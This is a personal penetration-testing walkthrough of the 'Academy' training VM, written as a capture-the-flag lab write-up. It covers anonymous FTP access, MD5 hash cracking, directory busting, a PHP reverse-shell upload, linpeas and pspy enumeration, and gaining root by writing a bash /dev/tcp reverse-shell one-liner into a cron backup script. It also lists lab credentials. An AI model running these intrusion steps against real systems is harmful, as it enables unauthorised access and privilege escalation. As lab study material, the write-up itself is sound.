



# Box2 - Academy VM Penetration Testing Walkthrough Training

1. Network Scanning\
Done in assumption we already know trget IP Address.

Available ports:
- 21(ftp)-vsftpd3.0.3
- 22(ssh)-Open SSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80(http)-Apache https 2.4.38

Information:
- available anonymous login from ftp side (login using anonymous:anonymous)
- a txt file inside anonymous account
- working web server (view website architecture)

Vulnerabilities:\
a. [FTP - Denial of Service](https://www.exploit-db.com/exploits/49719)\
b. [FTP - Backdoor - Github](https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj_vsftpd_backdoor.rb)\
c. [FTP - CVE Report](https://cyber.vumetric.com/vulns/vsftpd-project/vsftpd/3-0-3/)

2. FTP Exploration
Anonymous login to ftp

Download the txt file to local

See the txt file

Get: Login information for something\
Regno: 10201321\
Password: cd73502828457d15655bbd7a63fb0bc8 -> student

Identify password hash with `hash-identifier` in kali linux

With MD5 hash decryptor online, it turns out to be: 'student'

3. Directory Busting (dirb/ffuf)\
`dirb <target ip addr>`
Go indepth inside directories it can find
------
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u <target website eg. https://192.168.152.134>/FUZZ`
Finding specifically first level directories that gives back response

result:
- academy (status 301)
- phmyadmin (status 301)
- server-status (status 403)
Try to access the directories online

4. Login to academy website with acquired credentials
- Tweak around with the file upload system, able to upload something other than a picture 
- The website is build with php
- Search for php reverse shell because there is an opening\
Get: [PHP Reverse Shell - Github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- Upload the reverse shell, open a listener on kali

5. Privilege Escalation with linpeas
- Get linpeas from [Linpeas - Github](https://github.com/carlospolop/PEASS-ng)
- Downloaded using: `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh` to the local kali linux machine
- From the listener (open from reverse shell), download the linpeas to the victim machine with: `wget <http://local machine ip addr>/linpeas.sh`
- Make sure to downlaod it inside /tmp folder
- Make linpeas executable by: `chmod 7-- linpeas.sh`
- Run linpeas: `./linpeas.sh`

6. Information from linpeas (what to look for)
- System information (will be useful for another privilege escalation against it)
- Anything with red/yellow color
- In this step, I'm still not sure on what will be useful later\
Get: Credentials to access database
<image>
Username: grimmie
Password: My_V3ryS3cur3_P4ss

7. Access the database with the acquired credential
- Figuring out the student account that we use earlier
<image>
- Get an admin account on the academy website
<image>
Username: admin
Password: 21232f297a57a5a743894a0e4a801fc3 (MD5 from hash-identifier) -> admin

8. Using the listener to get more credential information
- `/etc/passwd` -> user accounts in that server
- This verifies that grimmie is a user with privilege of admin in that machine

9. Attempt SSH login using grimmie account
- Successful ssh attempt
<image>
- Look around grimmie account and see what is backed up
- See if there is a daily running job using: `crontab -l` or `crontab -u root -l` (if want to use another user privilege) or `systemctl list-timers` or `ps` (to see running processes)
- Download [pspy](https://github.com/DominicBreuker/pspy/releases) to our local kali machine to monitor processes

10. Get linpeas and pspy to grimmie account
- Make sure to do it in /tmp folder
- Make it executable for both linpeas and pspy
- Run `./pspy64` to look for the backup process and see how often it backs up
- Seems like the backup runs every minute

11. Get reverse shell to put inside backup folder
- Get: (Reverse Shell Cheatsheet One Liner)[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet]
- Put the code into the backup shell in grimmie and delete eveyrthing else: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
<image>
- Change the ip address and port to the attacker (our own kali machine) address and any random port
- Set up the listener on the port that we put to the reverse shell one line on our kali machine
<image>
Note: from here the listener will get access to the root account because only root has the privilege to run this shell. This is proven because from grimmie account, we can't see any running processes of the backup.sh

11. Get the flag
<image>

There's a lot of things that didn't cross my mind on what should I do after get to a certain point and even get credentials for nothing.
